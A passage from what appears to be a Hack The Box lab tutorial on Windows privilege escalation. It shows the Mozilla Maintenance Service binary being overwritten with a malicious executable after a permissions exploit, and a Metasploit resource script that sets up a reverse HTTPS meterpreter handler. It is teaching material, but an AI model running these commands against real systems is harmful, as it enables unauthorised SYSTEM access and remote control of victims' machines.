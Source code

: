 #### Checking Permissions of New File

The exploit runs and executing `icacls` again shows the following entry for our user: `WINLPE-WS02\htb-student:(F)`. This means that our htb-student user has full control over the maintenanceservice.exe binary, and we can overwrite it with a non-corrupted version of our malicious binary.

Kernel Exploits

```cmd-session
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(F)
                                                                          BUILTIN\Administrators:(F)
                                                                          WINLPE-WS02\htb-student:(F)
```

#### Replacing File with Malicious Binary

We can overwrite the `maintenanceservice.exe` binary in `c:\Program Files (x86)\Mozilla Maintenance Service` with a good working copy of our malicious binary created earlier before proceeding to start the service. In this example, we downloaded two copies of the malicious binary to `C:\Users\htb-student\Desktop`, `maintenanceservice.exe` and `maintenanceservice2.exe`. Let's move the good copy that was not corrupted by the exploit `maintenanceservice2.exe` to the Program Files directory, making sure to rename the file properly and remove the `2` or the service won't start. The `copy` command will only work from a cmd.exe window, not a PowerShell console.

Kernel Exploits

```cmd-session
C:\htb> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

        1 file(s) copied.

```

#### Metasploit Resource Script

Next, save the below commands to a [Resource Script](https://docs.rapid7.com/metasploit/resource-scripts/) file named `handler.rc`.

Kernel Exploits

```shell-session
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

#### Launching Metasploit with Resource Script

Launch Metasploit using the Resource Script file to preload our settings.
